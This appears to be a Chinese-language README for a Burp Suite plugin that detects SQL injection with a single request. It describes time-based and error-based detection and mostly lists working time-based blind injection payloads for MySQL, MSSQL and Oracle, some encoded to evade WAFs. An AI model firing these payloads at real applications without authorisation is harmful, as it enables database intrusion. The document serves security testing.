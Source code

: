 # 0x00 前言
Burp自带的SQLi扫描，发送的burp感觉有点多，在有waf的情况下，收到极大的限制。所以写一款适合自己的SQLi扫描插件（只发送一次数据包）。

# 0x01 检测原理
检测时间注入(减少发包量)，报错型注入(检测页面是否有sql错误提示，不需要发包)。
采用的payload是`11^%0axor(sleep(5))#'xor(sleep(5))#"^xor(sleep(5))#'`，浏览器中``11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'``,这样可以一次性检测数字型、字符型使用`'`或`"`作为分隔符的字符型)注入。不过`Insert`、`Limit`、`()`等一些注入，还没有找到好的办法进行检测。

payload
`11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'`

`5%0axor%0asleep(5)/*'xor%0asleep(5)xor%0a'"xor%0asleep(5)xor%0a"*/`

`5%0a-%0asleep(5)/*'-%0asleep(5)-%0a'"-%0asleep(5)-%0a"*/`

`5-SLEEP(5)/*'-SLEEP(5)-'"-SLEEP(5)-"*/`

`') waitfor delay '0:0:5' --`
`) waitfor delay '0:0:5' --`

`OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`


`AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`

` and 1733=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)  -- ' and 1= (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9) -- s`
